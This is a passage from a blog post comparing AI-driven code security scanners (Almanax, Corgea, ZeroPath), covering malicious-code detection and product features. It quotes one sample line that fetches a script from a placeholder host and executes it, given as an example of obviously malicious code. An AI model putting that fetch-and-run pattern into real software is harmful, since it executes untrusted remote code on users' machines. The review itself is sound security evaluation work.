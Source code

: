 Each of the companies offer products similar enough to what I want: vulnerability detection from source code analysis (i.e. a SAST). In addition to vulnerability scanning, Almanax and Corgea (but not ZeroPath) each offer “malicious code detection”, where they perpetuate that their systems are _designed_ to spot malicious code.

Malicious code detection is an incredibly difficult problem, especially in multi-package infrastructure. Inherently safe code can be made unsafe (deliberately or otherwise) by another package, or line of code. Sure, some systems could easily detect a simple `const a = fetch('https://example.com/script.txt'); exec(a);` which is probably malicious, but what about something that at least _tries_ to be opaque? In any case, I tested this out, and the results will be detailed below.

My colleague and I stuck to the following guidance (which is one of my personal mottos in life):

- We’re not looking for something that does everything, we’re just looking for anything that does something.

**Note**: I unfortunately did not have the opportunity to test out DryRun. Their licensing requirements meant testing their product required signing a “get 1 month free, cancel any time” contract which I couldn’t be bothered to deal with.

## Product Offering [\#\#](https://joshua.hu/llm-engineer-review-sast-security-ai-tools-pentesters\#product-offering)

All of these products generally speaking offer similar functionality, which I will break into different sections. I will not go into functionality like whether they offer RBAC for users, SAML/SSO for login, and so on, because generally speaking, the answer is always going to be: yes, and if not, they will do whatever you ask for if you give them money (these are all startups). I may say “some of them can ..” in this post from time to time; you should simply assume _all of them_, because there will be a common product offering eventually, in terms of features (again: give them money, and they’ll make it for you).

They all offer “full code scans”, “branch scans”, and PR/MR scans. They all (allege to) offer taint/flow analysis, false positive detection, custom policies/rules which are used to “guide” the LLM (some of which can be customized in the repository itself). They all offer scheduled, automatic, recurring, and on-demand scans, too.

All products offer some report generation, mostly related to findings, but ZeroPath offers SOC 2 scans, which “generate a SOC 2 report highlighting security and data integrity controls.” I did not test this, because I don’t know much about SOC 2 (side-note: ZeroPath is actually a full APSM (Application Security Posture Management), and is much more than just a SAST).

They all offer hooks (GitHub actions, for example) to scan on changes, which can be blocking or non-blocking. They all offer some bot which gives guidance to developers, responds in PRS, and so on; and common alerting. They all offer (or plan to) some IDE plugins, too.

ZeroPath supports what it calls “Multi-App Repository Support”, which detects when a repository contains multiple applications. Corgea, however, tries to decide which is the dominant application, and simply ignores all the other code. Almanax also silently drops many files from being scanned (for example: any directory names `tests` will not even be visible in the UI, regardless of whether they’re really tests or not (which should still be scanned!!! what if the code is vulnerable, and the test isn’t picking that up because the test is broken?)).

Finally, they all offer some auto-fix / remediation guidance, and can submit patches as PRs too.

### Scanning and Usage [\#\#\#](https://joshua.hu/llm-engineer-review-sast-security-ai-tools-pentesters\#scanning-and-usage)

